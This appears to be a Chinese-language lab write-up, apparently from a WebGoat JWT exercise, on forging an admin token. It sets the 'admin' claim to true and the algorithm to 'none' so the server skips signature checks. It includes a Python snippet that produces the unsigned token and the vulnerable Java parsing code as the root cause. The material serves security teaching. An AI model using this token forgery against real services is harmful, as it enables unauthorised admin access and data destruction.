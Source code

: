 点击reset按钮，抓取数据包，将数据包中的token进行解密

![image-20230607173408930](../../../images/image-20230607173408930.png)

发现在声明部分有admin参数值为false，应该就是根据这个来判断用户是否为管理员

**将admin值修改为true**

这时候修改了声明部分的内容，签名就失效了，所以要绕过签名验证

**将头部alg值改为none，让服务器不进行签名验证**

```python
import jwt

token = jwt.encode(
{
  "iat": 1686993728,
  "admin": "true",
  "user": "Jerry"
}
,algorithm="none",key="")

print(token)
```

![image-20230607174127468](../../../images/image-20230607174127468.png)



#### 形成原因

```java
try {
   Jwt jwt = Jwts.parser().setSigningKey(JWT_PASSWORD).parse(accessToken);
   Claims claims = (Claims) jwt.getBody();
   String user = (String) claims.get("user");
   boolean isAdmin = Boolean.valueOf((String) claims.get("admin"));
   if (isAdmin) {
     removeAllUsers();
   } else {
     log.error("You are not an admin user");
   }
} catch (JwtException e) {
  throw new InvalidTokenException(e);
}
```